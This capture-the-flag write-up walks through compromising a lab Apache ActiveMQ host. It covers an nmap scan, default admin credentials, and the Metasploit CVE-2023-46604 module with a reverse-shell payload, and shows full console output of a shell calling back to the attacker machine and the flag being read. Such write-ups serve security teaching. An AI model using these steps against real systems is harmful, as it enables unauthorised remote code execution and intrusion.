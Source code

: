 # Writeup
by fluffyhake

## Solution
Running metasploit with the `multi/misc/apache_activemq_rce_cve_2023_46604` exploit gives us a reverse shell where we can obtain the flag.

### Example

```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185

msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/bkuRyqOrWH
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo r45tNsHKThhcMCnA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "r45tNsHKThhcMCnA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.128.2.186:4444 -> 10.128.2.185:42398) at 2024-11-03 21:21:02 +0000
[*] 10.128.2.185:61616 - Server stopped.


cat /home/activemq/user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

## Explanation
We started by running `nmap -A -sS -p- -Pn 10.128.2.185` to gather information about open ports and services.

```
$ nmap -A -sS -p- -Pn 10.128.2.185
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-03 18:30 UTC
Nmap scan report for ip-10-128-2-185.eu-west-1.compute.internal (10.128.2.185)
Host is up (0.00026s latency).
Not shown: 65527 closed tcp ports (reset)
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:70:2a:43:ae:f2:5b:9a:88:a7:67:ef:c0:08:6e:2a (RSA)
|   256 4e:79:45:f2:30:5b:12:0f:34:12:5d:34:5b:cf:6c:d8 (ECDSA)
|_  256 ed:4f:5c:ad:c1:fa:c1:33:d9:4c:92:83:37:36:c9:b1 (ED25519)
1883/tcp  open  mqtt
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     ActiveMQ/Advisory/MasterBroker: 
|_    ActiveMQ/Advisory/Consumer/Topic/#: 
5672/tcp  open  amqp?
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, HTTPOptions, RPCCheck, RTSPRequest, SSLSessionReq, TerminalServerCookie: 
|     AMQP
|     AMQP
|     amqp:decode-error
|_    7Connection from client using unsupported AMQP attempted
8161/tcp  open  http       Jetty 9.2.22.v20170606
|_http-server-header: Jetty(9.2.22.v20170606)
|_http-title: Apache ActiveMQ

and so on...
```

The server is responding on a lot of ports. After some poking around we see that the website at tcp/8161 is running Apache ActiveMQ with default credentials `username: admin password: admin`.

This was really interesting. We could listen to messages with `mosquitto_sub -v -h 10.128.2.185 -p 1883 -t '#'` and see messeges sent from the admin panel. 

![Web Panel and mosquitto_sub](image.png)

We do not have a shell yet, so let's look for some other way in. Looking for Apache ActiveMQ exploits we find a metasploit exploit that could give us a reverse shell. It's called `multi/misc/apache_activemq_rce_cve_2023_46604`. Let's try it.

Launching the metasploit console.
```
msfconsole
```

Selecting the exploit we found.
```
msf6 > use exploit/multi/misc/apache_activemq_rce_cve_2023_46604
```
List the possible targets.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Windows
    1   Linux
    2   Unix

```
In our case we select Unix. I struggled to get any other payload than `cmd/unix/reverse` to work, so thats why we used Unix.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set target 2
```

Show all available options for this exploit. We need to define RHOSTS here since it's required.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > show options

Module options (exploit/multi/misc/apache_activemq_rce_cve_2023_46604):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.co
                                       m/docs/using-metasploit/basics/using-metasploit.ht
                                       ml
   RPORT    61616            yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on.
                                       This must be an address on the local machine or 0.
                                       0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSLCert                   no        Path to a custom SSL certificate (default is rando
                                       mly generated)
   URIPATH                   no        The URI to use for this exploit (default is random
                                       )

```

Use `set` to set RHOSTS. RHOSTS in metasploit is one or multiple remote hosts you want to exploit.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set RHOSTS 10.128.2.185
```
Set the payload to `cmd/unix/reverse`. The payload defines what to do when we have executed the exploit successfully. This could be reading files, creating users or opening a reverse shell. We want that reverse shell. To see all available payloads for the exploit you can run `show payloads`.

```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > set payload cmd/unix/reverse
```
Finally, run `exploit` to execute.
```
msf6 exploit(multi/misc/apache_activemq_rce_cve_2023_46604) > exploit

[*] Started reverse TCP double handler on 10.128.2.186:4444 
[*] 10.128.2.185:61616 - Running automatic check ("set AutoCheck false" to disable)
[+] 10.128.2.185:61616 - The target appears to be vulnerable. Apache ActiveMQ 5.15.3
[*] 10.128.2.185:61616 - Using URL: http://10.128.2.186:8080/3TCbclwjZo33SHe
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] 10.128.2.185:61616 - Sent ClassPathXmlApplicationContext configuration file.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo jxhfGYLjMSxVO6hV;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "jxhfGYLjMSxVO6hV\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.128.2.186:4444 -> 10.128.2.185:42382) at 2024-11-03 19:28:59 +0000
[*] 10.128.2.185:61616 - Server stopped.



dir
bin   dev  home  lib64	mnt  proc  run	 srv  tmp  var
boot  etc  lib	 media	opt  root  sbin  sys  usr
```
We now have a reverse shell. Let's use metasploit to give us a proper bash shell by running `shell`.

```
shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /usr/bin/bash


[prime@ip-10-128-2-185 /]$ whoami
whoami
prime
```
We now have a shell in the context of the prime user. Let's look around for a bit.
```
[prime@ip-10-128-2-185 /]$ cd
cd

[prime@ip-10-128-2-185 ~]$ ls
ls
user.txt
```
In the home folder there is a file called user.txt. It contains the flag 🎉
```
[prime@ip-10-128-2-185 ~]$ cat user.txt	
cat user.txt
EPT{d41d8cd98f00b204e9800998ecf8427e}
```

